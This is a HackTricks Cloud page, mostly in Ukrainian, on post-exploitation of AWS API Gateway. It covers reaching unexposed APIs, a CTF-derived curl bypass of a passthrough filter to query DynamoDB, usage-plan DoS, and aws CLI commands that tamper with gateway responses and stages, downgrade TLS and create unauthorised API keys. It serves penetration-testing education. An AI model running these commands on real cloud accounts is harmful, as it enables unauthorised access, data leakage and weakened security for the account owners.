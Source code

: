 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

For more information check:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

Ви можете створити кінцеву точку в [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) з сервісом `com.amazonaws.us-east-1.execute-api`, відкрити кінцеву точку в мережі, до якої у вас є доступ (можливо, через машину EC2) і призначити групу безпеки, що дозволяє всі з'єднання.\
Потім, з машини EC2 ви зможете отримати доступ до кінцевої точки і, отже, викликати API шлюзу, який раніше не був відкритий.

### Bypass Request body passthrough

Цю техніку було виявлено в [**цьому CTF звіті**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Як зазначено в [**документації AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) в розділі `PassthroughBehavior`, за замовчуванням значення **`WHEN_NO_MATCH`**, при перевірці заголовка **Content-Type** запиту, передасть запит на бекенд без трансформації.

Отже, в CTF API Gateway мав шаблон інтеграції, який **перешкоджав ексфільтрації прапора** у відповіді, коли запит надсилався з `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Однак, надсилання запиту з **`Content-type: text/json`** запобігло б цьому фільтру.

Нарешті, оскільки API Gateway дозволяв лише `Get` та `Options`, було можливим надіслати довільний запит до dynamoDB без жодних обмежень, надіславши POST запит з запитом у тілі та використовуючи заголовок `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

У розділі **Enumeration** ви можете побачити, як **отримати план використання** ключів. Якщо у вас є ключ і він **обмежений** до X використань **на місяць**, ви можете **просто використовувати його і викликати DoS**.

**API Key** просто потрібно **включити** в **HTTP заголовок** під назвою **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:UpdateGatewayResponse` та `apigateway:CreateDeployment` може **модифікувати існуючу відповідь шлюзу, щоб включити користувацькі заголовки або шаблони відповідей, які витікають чутливу інформацію або виконують шкідливі скрипти**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Витік чутливої інформації, виконання шкідливих скриптів або несанкціонований доступ до ресурсів API.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:UpdateStage` та `apigateway:CreateDeployment` може **модифікувати існуючий етап API Gateway, щоб перенаправити трафік на інший етап або змінити налаштування кешування для отримання несанкціонованого доступу до кешованих даних**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Несанкціонований доступ до кешованих даних, порушення або перехоплення API-трафіку.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:PutMethodResponse` та `apigateway:CreateDeployment` може **модифікувати відповідь методу існуючого методу API Gateway REST API, щоб включити користувацькі заголовки або шаблони відповідей, які витікають чутливу інформацію або виконують шкідливі скрипти**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Потенційний вплив**: Витік чутливої інформації, виконання шкідливих скриптів або несанкціонований доступ до ресурсів API.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:UpdateRestApi` та `apigateway:CreateDeployment` може **змінити налаштування REST API API Gateway, щоб вимкнути ведення журналу або змінити мінімальну версію TLS, що потенційно послаблює безпеку API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Потенційний вплив**: Послаблення безпеки API, що потенційно дозволяє несанкціонований доступ або викриття чутливої інформації.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Зловмисник з правами `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` та `apigateway:CreateUsagePlanKey` може **створювати нові API ключі, асоціювати їх з планами використання, а потім використовувати ці ключі для несанкціонованого доступу до API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Потенційний вплив**: Несанкціонований доступ до ресурсів API, обхід засобів безпеки.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
